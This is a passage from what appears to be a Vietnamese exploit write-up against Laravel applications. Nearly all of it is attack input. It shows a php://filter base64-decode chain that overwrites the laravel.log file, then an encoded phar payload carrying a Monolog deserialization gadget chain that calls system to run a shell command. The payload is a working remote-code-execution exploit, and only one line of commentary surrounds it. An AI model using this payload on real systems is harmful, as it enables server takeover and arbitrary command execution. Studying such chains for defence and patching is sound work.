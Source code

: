 ```php
viewFile: php://filter/write=convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```
> Chẳng hiểu kiểu gì bạn với sếp mình dùng cách này xoá được log mà mình phải dùng cách khác để xoá log >.<
#### Bước 3: Tạo log chứa payload
```php
viewFile: P=00D=009=00w=00a=00H=00A=00g=00X=001=009=00I=00Q=00U=00x=00U=00X=000=00N=00P=00T=00V=00B=00J=00T=00E=00V=00S=00K=00C=00k=007=00I=00D=008=00+=00D=00Q=00r=00F=00A=00g=00A=00A=00A=00g=00A=00A=00A=00B=00E=00A=00A=00A=00A=00B=00A=00A=00A=00A=00A=00A=00B=00u=00A=00g=00A=00A=00T=00z=00o=00z=00M=00j=00o=00i=00T=00W=009=00u=00b=002=00x=00v=00Z=001=00x=00I=00Y=00W=005=00k=00b=00G=00V=00y=00X=00F=00N=005=00c=002=00x=00v=00Z=001=00V=00k=00c=00E=00h=00h=00b=00m=00R=00s=00Z=00X=00I=00i=00O=00j=00E=006=00e=003=00M=006=00O=00T=00o=00i=00A=00C=00o=00A=00c=002=009=00j=00a=002=00V=000=00I=00j=00t=00P=00O=00j=00I=005=00O=00i=00J=00N=00b=002=005=00v=00b=00G=009=00n=00X=00E=00h=00h=00b=00m=00R=00s=00Z=00X=00J=00c=00Q=00n=00V=00m=00Z=00m=00V=00y=00S=00G=00F=00u=00Z=00G=00x=00l=00c=00i=00I=006=00N=00z=00p=007=00c=00z=00o=00x=00M=00D=00o=00i=00A=00C=00o=00A=00a=00G=00F=00u=00Z=00G=00x=00l=00c=00i=00I=007=00T=00z=00o=00y=00O=00T=00o=00i=00T=00W=009=00u=00b=002=00x=00v=00Z=001=00x=00I=00Y=00W=005=00k=00b=00G=00V=00y=00X=00E=00J=001=00Z=00m=00Z=00l=00c=00k=00h=00h=00b=00m=00R=00s=00Z=00X=00I=00i=00O=00j=00c=006=00e=003=00M=006=00M=00T=00A=006=00I=00g=00A=00q=00A=00G=00h=00h=00b=00m=00R=00s=00Z=00X=00I=00i=00O=000=004=007=00c=00z=00o=00x=00M=00z=00o=00i=00A=00C=00o=00A=00Y=00n=00V=00m=00Z=00m=00V=00y=00U=002=00l=006=00Z=00S=00I=007=00a=00T=00o=00t=00M=00T=00t=00z=00O=00j=00k=006=00I=00g=00A=00q=00A=00G=00J=001=00Z=00m=00Z=00l=00c=00i=00I=007=00Y=00T=00o=00x=00O=00n=00t=00p=00O=00j=00A=007=00Y=00T=00o=00y=00O=00n=00t=00p=00O=00j=00A=007=00c=00z=00o=002=00O=00i=00J=00s=00c=00y=00A=00t=00b=00G=00E=00i=00O=003=00M=006=00N=00T=00o=00i=00b=00G=00V=002=00Z=00W=00w=00i=00O=000=004=007=00f=00X=001=00z=00O=00j=00g=006=00I=00g=00A=00q=00A=00G=00x=00l=00d=00m=00V=00s=00I=00j=00t=00O=00O=003=00M=006=00M=00T=00Q=006=00I=00g=00A=00q=00A=00G=00l=00u=00a=00X=00R=00p=00Y=00W=00x=00p=00e=00m=00V=00k=00I=00j=00t=00i=00O=00j=00E=007=00c=00z=00o=00x=00N=00D=00o=00i=00A=00C=00o=00A=00Y=00n=00V=00m=00Z=00m=00V=00y=00T=00G=00l=00t=00a=00X=00Q=00i=00O=002=00k=006=00L=00T=00E=007=00c=00z=00o=00x=00M=00z=00o=00i=00A=00C=00o=00A=00c=00H=00J=00v=00Y=002=00V=00z=00c=002=009=00y=00c=00y=00I=007=00Y=00T=00o=00y=00O=00n=00t=00p=00O=00j=00A=007=00c=00z=00o=003=00O=00i=00J=00j=00d=00X=00J=00y=00Z=00W=005=000=00I=00j=00t=00p=00O=00j=00E=007=00c=00z=00o=002=00O=00i=00J=00z=00e=00X=00N=000=00Z=00W=000=00i=00O=003=001=009=00c=00z=00o=00x=00M=00z=00o=00i=00A=00C=00o=00A=00Y=00n=00V=00m=00Z=00m=00V=00y=00U=002=00l=006=00Z=00S=00I=007=00a=00T=00o=00t=00M=00T=00t=00z=00O=00j=00k=006=00I=00g=00A=00q=00A=00G=00J=001=00Z=00m=00Z=00l=00c=00i=00I=007=00Y=00T=00o=00x=00O=00n=00t=00p=00O=00j=00A=007=00Y=00T=00o=00y=00O=00n=00t=00p=00O=00j=00A=007=00c=00z=00o=002=00O=00i=00J=00s=00c=00y=00A=00t=00b=00G=00E=00i=00O=003=00M=006=00N=00T=00o=00i=00b=00G=00V=002=00Z=00W=00w=00i=00O=000=004=007=00f=00X=001=00z=00O=00j=00g=006=00I=00g=00A=00q=00A=00G=00x=00l=00d=00m=00V=00s=00I=00j=00t=00O=00O=003=00M=006=00M=00T=00Q=006=00I=00g=00A=00q=00A=00G=00l=00u=00a=00X=00R=00p=00Y=00W=00x=00p=00e=00m=00V=00k=00I=00j=00t=00i=00O=00j=00E=007=00c=00z=00o=00x=00N=00D=00o=00i=00A=00C=00o=00A=00Y=00n=00V=00m=00Z=00m=00V=00y=00T=00G=00l=00t=00a=00X=00Q=00i=00O=002=00k=006=00L=00T=00E=007=00c=00z=00o=00x=00M=00z=00o=00i=00A=00C=00o=00A=00c=00H=00J=00v=00Y=002=00V=00z=00c=002=009=00y=00c=00y=00I=007=00Y=00T=00o=00y=00O=00n=00t=00p=00O=00j=00A=007=00c=00z=00o=003=00O=00i=00J=00j=00d=00X=00J=00y=00Z=00W=005=000=00I=00j=00t=00p=00O=00j=00E=007=00c=00z=00o=002=00O=00i=00J=00z=00e=00X=00N=000=00Z=00W=000=00i=00O=003=001=009=00f=00Q=00U=00A=00A=00A=00B=00k=00d=00W=001=00t=00e=00Q=00Q=00A=00A=00A=00A=00G=00k=00P=009=00f=00B=00A=00A=00A=00A=00A=00x=00+=00f=009=00i=00k=00A=00Q=00A=00A=00A=00A=00A=00A=00A=00A=00g=00A=00A=00A=00B=000=00Z=00X=00N=000=00L=00n=00R=004=00d=00A=00Q=00A=00A=00A=00A=00G=00k=00P=009=00f=00B=00A=00A=00A=00A=00A=00x=00+=00f=009=00i=00k=00A=00Q=00A=00A=00A=00A=00A=00A=00A=00H=00R=00l=00c=003=00R=000=00Z=00X=00N=000=00C=00Q=00/=006=00k=00s=000=00G=00x=00r=00d=00l=00r=00x=00x=007=00q=00r=009=003=00V=00/=00X=00T=002=00F=00k=00C=00A=00A=00A=00A=00R=000=00J=00N=00Q=00g=00=3D=00
```
